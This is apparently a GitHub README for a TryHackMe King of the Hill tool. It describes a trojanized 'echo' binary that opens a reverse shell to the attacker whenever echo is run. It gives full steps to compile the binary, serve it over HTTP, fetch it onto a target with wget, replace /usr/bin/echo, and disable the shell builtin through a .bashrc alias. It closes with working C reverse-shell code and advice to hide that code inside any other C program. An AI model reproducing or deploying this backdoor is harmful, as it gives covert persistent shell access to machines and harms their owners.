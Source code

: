 # Malicious Binary - echo for KoTH | TryHackMe



##  What does it do? <br />

1. This custom-echo will give you a reverse shell on a custom port that you set as PORT in the c code.
2. How is works is, whenever somebody runs an echo command on the machine in which you planted your custom-echo, it will send you a reverse shell! :shipit:<br />
3. This can be used in multiple ways, but in this case, we are using a reverse shell c code embedded in the raw echo.c code, that you can obtain via GitHub. (Linux, open-source! Yay.)

---------------
### How to use it?<br />

  - first, let's clone the repo:<br />
    
     ```bash
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we got to compile it first:<br />

     ```
     gcc -o custom-echo custom-echo.c
     ```
     > You can also add static flag to compile it on your machine and have it ready to use on almost all linux machines.
     ```
     gcc -o custom-echo custom-echo.c --static
     ```

  - give it executable permissions:<br />
    
     ```
     chmod +x custom-echo
     ```
     
  - Now transfer it to the machine, in which you want to use it:<br />

     - [x] start a python server in your machine 

     - [x]  ```python3 -m http.server 80```

     - [x] Now, on the target machine,
         ``` wget LOCAL-IP/custom-echo; chmod +x custom-echo```
     
     - [x] This is potentially machine breaking, as we will be swapping our malicious binary with the default echo on the machine. 
       DO NOT TRY THIS ON YOUR OWN MACHINE.
       
       ```mv `which echo` /tmp/.tmpecho; cp custom-echo /usr/bin/echo```
       
     - [x] but it'll still not work because echo is a shell-built-in, means it doesn't require any external binary to work in Linux<br /> To fix this, use the following commands:<br />
            ```enable -n echo```<br />
            ```echo "alias echo='/usr/bin/echo'" >> ~/.bashrc```<br />
     - [x] Now we're ready to get our reverse shell. Let's see it in action. < 3

-----------------
##### Testing custom-echo:<br />

![image](images/echo.png)

![image](images/nc.png)

------------------

For users who want to play around with this code themselves, you can just take the below snippet and add it as called-function in any c code and compile it using the same process that we used above. (CBA with adding proper includes, if you are in this section, then you likely know how to.)
```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int caller()
{
    struct sockaddr_in sa;
    int s;
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("<ip>");
    sa.sin_port = htons(<port>);
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execl("/bin/bash","bash","-i",0,0);
    return 0;
}
# Obviously call the caller func after some primary function of the code you are adding it in.
```

